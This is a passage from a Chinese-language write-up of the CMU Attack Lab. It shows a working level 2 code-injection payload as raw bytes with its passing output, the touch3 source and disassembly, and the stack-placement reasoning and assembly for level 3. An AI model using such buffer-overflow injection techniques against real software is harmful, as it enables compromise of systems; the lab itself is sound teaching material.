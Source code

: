 ```bash
[root@MiWiFi-R4A-srv target1]# ./hex2raw < ctarget.l2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

## level3

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

```
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00
	...
```

在level3中，我们的参数变成了字符串，同时由于touch3调用了子函数hexmatch，尤其里面的声明和随机位置赋值，这意味着如果我们还想像level2一样在rsp-0x28处插入代码就有可能被覆盖掉。注意，我们是需要在存字符串的，一旦被覆盖了，字符串就丢失了。因此，我们换到处于更高位置的test帧处做字符串存储，同样的，由于touch3直接exit我们不用担心后续。

由于level2相同编译问题，我将touch3的入口也放到后面了，因此字符串的实际实际位置在rsp+0x10，也就是0x5561dcb0。

```
movl    $0x5561dcb0, %edi # 提供sval
retq

```

